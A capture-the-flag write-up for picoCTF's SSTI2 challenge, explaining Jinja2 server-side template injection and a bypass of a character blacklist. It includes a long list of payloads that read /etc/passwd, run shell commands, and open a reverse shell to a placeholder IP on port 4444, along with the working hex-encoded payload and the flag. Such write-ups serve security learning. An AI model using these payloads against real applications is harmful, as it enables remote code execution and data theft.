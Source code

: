 # SSTI2

AUTHOR: VENAX

Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

Hints:

1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

This challenge is the continuation of SSTI1, based on the title we could already know it is related to Server Side Template Injection attack. However, this challenge mentioned it has blocked certain characters.

![1000170803](https://github.com/user-attachments/assets/718192db-09ba-4b1c-b002-11bc159ea19e)

We could not identified filtering used based on the website source code:

```java
<!doctype html>
      <title>SSTI2</title>
<h1> Home </h1>
<p> I built a cool website that lets you announce whatever you want!* </p><form action="/" method="POST"> 
What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button>
      </form>
      <p style="font
size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

We already know the website is using Jinja2 as template engine based on challenge SSTI1.

{{7*’7’}} returns 7777777 → Jinja2

We will brute force to identify the correct payload based on Jinja2:

```jsx
{% raw %}{{4*4}}{% endraw %}
{% raw %}{{7*7}}{% endraw %}
{% raw %}{{7*'7'}}{% endraw %}
{% raw %}{{dump(app)}}{% endraw %}
{% raw %}{{app.request.server.all|join(',')}}{% endraw %}
{% raw %}{{config.items()}}{% endraw %}
{% raw %}{{ [].class.base.subclasses() }}{% endraw %}
{% raw %}{{''.class.mro()[1].subclasses()}}{% endraw %}
{% raw %}{{ ''.__class__.__mro__[2].__subclasses__() }}{% endraw %}
{% raw %}{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}{% endraw %}
{% raw %}{{ request }}{% endraw %}
{% raw %}{{self}}{% endraw %}
{% raw %}{{app.request.query.filter(0,0,1024,{'options':'system'})}}{% endraw %}
{% raw %}{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}{% endraw %}
{% raw %}{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}{% endraw %}
{% raw %}{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}{% endraw %}
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}{% endraw %}
{% raw %}{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}{% endraw %}
{% raw %}{{['id']|filter('system')}}{% endraw %}
{% raw %}{{['cat\x20/etc/passwd']|filter('system')}}{% endraw %}
{% raw %}{{['cat$IFS/etc/passwd']|filter('system')}}{% endraw %}
{% raw %}{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}{% endraw %}
{% raw %}{{request|attr(["_"*2,"class","_"*2]|join)}}{% endraw %}
{% raw %}{{request|attr(["__","class","__"]|join)}}{% endraw %}
{% raw %}{{request|attr("__class__")}}{% endraw %}
{% raw %}{{request.__class__}}{% endraw %}
{% raw %}{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}{% endraw %}
{% raw %}{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}{% endraw %}
{% raw %}{{self._TemplateReference__context.cycler.__init__.__globals__.os}}{% endraw %}
{% raw %}{{self._TemplateReference__context.joiner.__init__.__globals__.os}}{% endraw %}
{% raw %}{{self._TemplateReference__context.namespace.__init__.__globals__.os}}{% endraw %}
{% raw %}{{cycler.__init__.__globals__.os}}{% endraw %}
{% raw %}{{joiner.__init__.__globals__.os}}{% endraw %}
{% raw %}{{namespace.__init__.__globals__.os}}{% endraw %}
```

We successfully identified the correct payload that successfully executed on the server:

![image](https://github.com/user-attachments/assets/706a2f6f-844d-4298-8ba8-fe5d4c8a4d4d)


This is the full payload:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

All we need to do know is to change the id to cat flag:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

What the code does?

- \x5f is the hex encoding of _ (underscore)

The payload first sends the request and gives access to Flask application interface. It allow us to gain access to global variables. Next, it access global and builtins that allow access to builtin python functions such as import and open. import os helps load the os module that allows file manipulation and file access. os.popen(’cat flag’) will get the flag and read() will get output of the command and displays it. 

And we get the flag:

**picoCTF{sst1_f1lt3r_byp4ss_8b534b82}**
